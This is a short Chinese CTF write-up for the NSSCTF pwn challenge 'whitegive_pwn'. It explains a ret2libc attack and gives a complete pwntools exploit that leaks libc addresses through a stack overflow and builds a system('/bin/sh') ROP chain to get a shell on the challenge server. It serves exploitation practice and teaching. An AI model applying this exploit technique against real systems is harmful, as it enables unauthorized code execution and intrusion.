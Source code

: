 ## [SWPUCTF 2021 新生赛]whitegive_pwn
* 考点：ret2libc
* 工具：ida，pwntools

https://www.nssctf.cn/problem/391

这道题的其他步骤和之前的题目一样，只是需要注意通过泄露出来的函数真实地址可以锁定的libc有两个，其中第一个使用是得不到shell的，需要使用第二个

![](./img/whitegive-1.png)

得到libc后再计算基地址，构建真实的system地址使用命令调用触发shell

exp如下：
```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
io=remote('node4.anna.nssctf.cn',28107)
elf=ELF('附件')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
gets_plt=elf.plt['gets']
gets_got=elf.got['gets']
#read_plt=elf.plt['read']
#read_got=elf.got['read']

pop_rdi=0x400763

main_address = 0x40066B

vuln_addr=0x4006BA

payload = b'a'*(0x10+8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln_addr)

#io.sendlineafter("overflow?\n",payload)
io.sendline(payload)
puts_real_address = u64(io.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))

print("puts_address:"+hex(puts_real_address))

payload = b'a'*(0x10+8) + p64(pop_rdi) + p64(gets_got) + p64(puts_plt) + p64(vuln_addr)

#io.sendlineafter("overflow?\n",payload)
io.sendline(payload)
gets_real_address = u64(io.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))

print("gets_address:"+hex(gets_real_address))




libc=ELF('libc6_2.23-0ubuntu11.3_amd64.so')
ret_addr=0x4006f4
real_libc=puts_real_address-libc.sym['puts']
print(hex(real_libc))
sys_address = real_libc+libc.sym['system']

#bin_sh_address = next(real_libc+int(libc.search('bin/sh\x00')))

bin_sh_offset  = next(libc.search(b'/bin/sh\x00')) 
bin_sh_address = real_libc + bin_sh_offset
#payload1 = b'a'*(0x10+8) + p64(ret_addr) +p64(pop_rdi) + p64(bin_sh_address) + p64(sys_address)
payload1 = b'a'*(0x10+8) +p64(pop_rdi) + p64(bin_sh_address) + p64(sys_address)
#io.sendlineafter("overflow?\n",payload1)
io.sendline(payload1)
io.interactive()                               
```

---